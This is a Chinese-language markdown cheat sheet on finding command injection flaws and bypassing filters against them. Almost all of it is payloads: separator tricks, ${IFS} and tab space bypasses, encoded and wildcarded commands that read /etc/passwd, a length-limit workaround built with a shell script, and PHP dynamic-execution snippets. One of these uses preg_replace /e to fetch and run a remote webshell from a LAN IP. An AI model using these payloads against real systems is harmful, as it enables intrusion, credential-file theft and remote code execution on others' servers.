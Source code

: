 ## 命令注入漏洞挖掘
一般含有ping功能的网页中可能含有漏洞，或者有使用系统命令的地方
一般使用sleep探测是否含有命令注入漏洞
`127.0.0.1;sleep 10 `（执行完ping 127.0.0.1后，执行sleep 10，抓包发现ping完的包和下一发数据包有10秒的间隙，网站会暂停几秒后更新）
**注入方法**
`command1 ; command2`（linux中分开命令之间的符号，不管前一个执行结果如何，两个命令都会执行）
`command1 \n command2` （linux中的换行符，会执行两个命令，一般encode为%0a）
`command1 & command2`（先执行Command 1，不管是否成功，都会执行Command 2）
`command1 && command2`（与的逻辑，先执行Command 1，执行成功后执行Command 2，否则不执行Command 2）
`command1 | command2`（command1、command2都会执行 command1的标准输出作为command2的标准输入）
`command1 | | command2`（或的逻辑，如果command1 执行成功，则不执行command2;如果command1执行失败，则执行command2：）
`command1${LS_COLORS:10:1}command2` （使用系统中的环境变量裁剪后得到命令分割符，`${LS_COLORS:10:1}`为；  `${PATH:0:1}`为/   前提是$不会被过滤）



## 命令注入bypass
**找替代命令bypass**
cat:由第一行开始显示内容，并将所有内容输出
tac:从最后一行倒序显示内容，并将所有内容输出
more:根据窗口大小，一页一页的现实文件内容
less:和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head:只显示头几行
tail:只显示最后几行
tailf:类似于tail –f
paste:读取文件
**空格过滤绕过**
使用{IFS} 代替空格，cat{IFS}/etc/passwd
有时可以使用tab来代替空格，%09就是tab键，cat%09/etc/passwd
**关键字拼接绕过**
`a=ca;b=t;$a$b /etc/passwd`
**编解码bypass**
hex编解码绕过
`echo -e '\x63\x61\x74' /etc/passwd`
`$(printf "\154\163")     ==> ls`
base编解码绕过
``echo Y2F0Cg==|base64 -d` /etc/passwd`
引号bypass
`kali@kali:~$ u'n'ame -a`
`Linux kali 5.7.0-kali1-amd64`
通配符bypass
`cat /e?c/p*d`
**命令长度限制bypass**
可以通过 >> 输出重定向，向一个.sh中多次追加写入绕过输入长度限制
`kali@kali:~$ echo 'cat /etc\' >> cmd.sh`
`kali@kali:~$ echo '/passwd' >> cmd.sh`
`kali@kali:~$ chmod +x cmd.sh`
`kali@kali:~$ ./cmd.sh`
**动态代码执行**
`http://127.0.0.1/x.php?a=system&b=ipconfig `执行系统命令ipconfig
`<?php`
`$a = $_GET['a'];`
`$b= $_GET['b'];`
`$a($b);`
`?>`
*分批传参往往比直接传参容易过掉waf*
除了正常代码执行函数外，也有不同情况可以执行代码，例如preg_replace()函数
`<?php`
`$a="m";`
`$m=file_get_contents("http://192.168.0.110/1.txt");//加载远程大马`
`preg_replace("/_/e",$$a,"_");`
`?>`









